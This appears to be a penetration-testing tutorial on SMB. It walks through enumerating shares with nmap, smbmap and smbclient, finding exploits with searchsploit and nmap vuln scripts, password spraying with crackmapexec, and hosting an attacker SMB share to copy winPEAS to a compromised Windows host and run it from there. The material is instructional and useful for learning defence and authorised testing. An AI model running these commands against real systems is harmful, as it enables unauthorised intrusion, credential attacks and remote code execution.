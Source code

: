 # SMB Enumeration & Interaction


# What is SMB?
{{< admonition type=info open=true >}}
Server Message Block (SMB)
{{< /admonition >}}
SMB has a pretty bad rep in regards to security espically with the recent, 2017, infamous exploit EternalBlue [CVE-2017-0144](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144).

But how can you find it, exploit it, and even use it to help with a red team engagement? Lets find out.
## Enumerating
Before you can do anything you need to discover shares on the network. From here you can try to see if any shares allow anonymous access or what restricted share exists. SMB can also disclose information about the host such as the operating system and current version.
### nmap
we can use nmap to scan across a network to try discover hosts with port 139 which is for the NetBIOS protocol which is a session layer allowing computers on a local network to talk with one another and port 445 for SMB.
{{< admonition type=note open=true >}}
It should be noted that SMB can work without NetBIOS but it is usually enabled for backwards compatibility.
{{< /admonition >}}
We've been tasked to complete a peneration test on the /24 network located at 10.10.10.1 using nmap to find smb will look like this:
```bash
nmap -p 139,445 10.10.10.1/24
```
This will return back a list of hosts that have those ports open.

### Discovering file sharing
Now we have a list of hosts with shares lets see if we can access them via anonymous sessions.
#### smbmap
[smbmap](https://github.com/ShawnDEvans/smbmap) is a great tool for listing out different shares on an SMB server to do so is as easy as passing it the IP address of the host.
```bash
smbmap -H 10.10.10.23
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.23...
[+] IP: 10.10.10.23:445	Name: hack.me
	Disk                                Permissions	    Comment
	----                                -----------	    -------
	ADMIN$                              NO ACCESS	    Remote Admin
	C$                                  NO ACCESS	    Default share
	IPC$                                NO ACCESS	    Remote IPC
	Users                               READ, WRITE
```
From this output we can see there exists several shares, *ADMIN*, *C*, *IPC* and *Users*. We can see via our anonymous access, we never gave smbmap a username and password, that we have read and write access to the *Users* share.

smbmap supports loads more features including specifying usernames and passwords and even executing commands!
#### smbclient
Another tool I really like to use is smbclient which is part of the fantastic [impacket](https://github.com/SecureAuthCorp/impacket) library.

To list share it's as simple as this:
```bash
echo exit | smbclient -L 10.10.10.23
```
{{< admonition type=note open=true >}}
Piping exit to smb client closes the password request as we're only looking for anonymous sessions at the moment
{{< /admonition >}}
You should recieve an output similar to smbmap. Again smbclient has many more features than just listing the shares. We will use it further on in this article for actually connecting to the share and interacting with it.

### Discovering SMB vulnrabilties
{{< figure src="https://thumbs.gfycat.com/JitteryPlasticBactrian-size_restricted.gif" title="nmap cameo appearence" >}}
There's a wealth of vulnrabilites with SMB and a lot of imformation out there on what version has which exploit. To quickly discover potentially exploits I like two methods.

#### Searchsploit
Searchsploit is a handy little cli tool. Parsing searchsploit a software and a version will return a list of known exploits.

```bash
searchsploit smb 2.1
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
MikroTik RouterOS < 6.41.3/6.42rc27 - SMB Buf | hardware/remote/44290.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
A feature I love is ability to quickly *mirror* the result to my working directory. In the above snippet I an see a python file has been found. I can quickly copy it with the `-m` flag or if I want to quickly examine it `-x`.

```bash
searchspoit -m 44290
```

#### nmap scripting engine
Using nmaps scripting engine we can have it run scripts in hopes to discover potential vulnrabilties and get a wealth of information on them. Using a `*` is a good trick here to run all scripts related to smb vulns.

```bash
nmap -p 139,445 --script smb-vuln* 10.10.10.23
```

{{< admonition type=warning open=true >}}
We should avoid the usage of the `unsafe=1` flag with nmap as it's almost guerenteed to cause the host to crash.
{{< /admonition >}}

## Gaining access
If I find some creds in LDAP or via someother means and prehaps some potential users names. Which could be found from company email address or looking on website such as linked in for employees of a company. We could create a username and password lists. Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) I can quickly spray all permutations of usernames and passwords to see if i can gain authenticated access to shares.

```bash
crackmapexec smb 10.10.10.23 -u user.list -p password.list
```
## Interacting with a SMB share
As privously mentioned smbclient has additional features those include actually interacting with shares.

```bash
smbclient \\\\10.10.10.23\\Users
smb:\>
```
I can now use normal commands such as `cd` `ls` and `get` to download a remote file or `put` to upload a file from my working directory to the share.


## Using your own SMB share to transfer files to a windows host
Okay, you've establised a foothold on a windows machine and now you want to copy over your tools such as [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to discover low hanging fruit that could esculate our privileges. We can use the hosts `cmd.exe` `copy` command to grab files from our own share.

[impacket](https://github.com/SecureAuthCorp/impacket) comes with it's own smbserver. Lets create a share on our Kali machine by spesifying the share name and the directory to mount to it.

```bash
smbserver EvilShare /opt/tools
```

Now lets copy over winPEAS from the share where the IP address is the IP of our Kali machine.

```dos
C:\> copy \\10.10.11.2\EvilShare\winPEAS.exe .
```

We can also directly execute the binary straight from the share.
```dos
C:\>  \\10.10.11.2\EvilShare\winPEAS.exe
```

## In Summary
SMB might not always be exploitable but it can still be a power tool for not only extracting data from a host but we can also use it for transfering our own data from our local machine to a windows host.

I think you should always get excited if you see smb is open on a machine and it is always a good place to start enumerating futher. I hope this post helps facilitate that.

